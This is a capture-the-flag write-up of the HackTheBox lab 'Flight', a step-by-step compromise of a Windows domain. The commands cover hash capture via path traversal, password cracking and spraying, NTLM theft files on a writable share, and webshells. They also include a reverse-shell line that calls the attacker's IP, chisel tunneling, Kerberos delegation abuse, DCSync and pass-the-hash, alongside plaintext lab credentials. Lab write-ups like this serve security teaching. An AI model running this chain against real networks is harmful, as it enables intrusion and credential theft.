







# Flight -- HackTheBox (write-up)

**Difficulty:** Hard
**Box:** Flight (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-07-10

---

## TL;DR

### Subdomain enumeration found school.flight.htb with LFI. Responder captured svc_apache hash. Password reuse led to S.Moon, then NTLM theft from writable share gave C.Bum. Webshell on IIS via writable development directory. RBCD via machine account ticket delegation for domain admin.

---

## Target info

- Host: `10.129.228.120`
- Domain: `flight.htb`
- Services discovered: `53/tcp`, `80/tcp (Apache)`, `88/tcp`, `135/tcp`, `139/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `3268/tcp`, `3269/tcp`, `9389/tcp`

---

## Enumeration

```bash
nmap -p- 10.129.228.120 -vvv -sCV
```

Subdomain fuzzing:

```bash
wfuzz -u http://10.129.228.120 -H "Host: FUZZ.flight.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 7069
```

Found: `school.flight.htb`. Added to `/etc/hosts`.

```bash
feroxbuster -u http://school.flight.htb -x html,php
```

Found directory traversal on `index.php?view=`. Backslash `\\` was blocked but forward slash `/` worked:





Tested for LFI vs file read. Created `poc.txt` with PHP code:



Content loaded as text (not executed), so source uses `file_get_contents` not `include`.

---

## Foothold

Used Responder to capture a hash via LFI:

```bash
sudo responder -I tun0
```

```
http://school.flight.htb/index.php?view=//10.10.14.172/test
```

Cracked `svc_apache` hash with hashcat:

```bash
hashcat -m 5600 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/rockyou.txt
```

`svc_apache:S@Ss!K@*t13`

Enumerated shares and users:

```bash
nxc smb 10.129.228.120 -u svc_apache -p 'S@Ss!K@*t13' --shares
nxc smb 10.129.228.120 -u svc_apache -p 'S@Ss!K@*t13' --users
```

Password spray found `S.Moon` reusing the same password:

```bash
nxc smb 10.129.228.120 -u users.txt -p 'S@Ss!K@*t13' --continue-on-success
```

---

## Lateral movement

S.Moon had write access on the `Shared` share. Uploaded NTLM theft files:

```bash
python ntlm_theft.py --generate all --server 10.10.14.172 --filename dank
smbclient //flight.htb/shared -U S.Moon 'S@Ss!K@*t13'
prompt false
mput *
```



Responder captured `C.Bum` hash. Cracked: `Tikkycoll_431012284`

C.Bum had write access to the `Web` share. Uploaded a PHP webshell to `school.flight.htb/styles/`:

```bash
curl school.flight.htb/styles/shell.php?cmd=whoami
curl -G school.flight.htb/styles/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.172 443'
```

Got shell as `svc_apache`.

Found IIS on port 8000 (internal only) with a `development` directory writable by C.Bum. Used chisel to port forward:

```bash
# Kali
chisel server -p 8000 --reverse
# Target
.\c client 10.10.14.172:8000 R:8001:127.0.0.1:8000
```



IIS with ASP.NET. Uploaded an ASPX webshell to `\inetpub\development\`:



Got shell as `iis apppool\defaultapppool`.

---

## Privilege escalation

`defaultapppool` authenticates as the machine account. Used Rubeus to get a TGT delegation ticket:

```powershell
.\rubeus.exe tgtdeleg /nowrap
```

Decoded and converted the ticket:

```bash
echo "<base64>" | base64 --decode > ticket.kirbi
minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```



DCSync for administrator hash:

```bash
secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
```

Used psexec with admin hash:

```bash
psexec.py administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
```

---

## Lessons & takeaways

- When `\\` is blocked in LFI, try `/` -- different path separators may bypass filters
- Writable SMB shares are prime targets for NTLM theft via malicious files
- IIS `defaultapppool` authenticates as the machine account, enabling Kerberos delegation attacks
- Chisel port forwarding is essential for reaching internal-only services
---
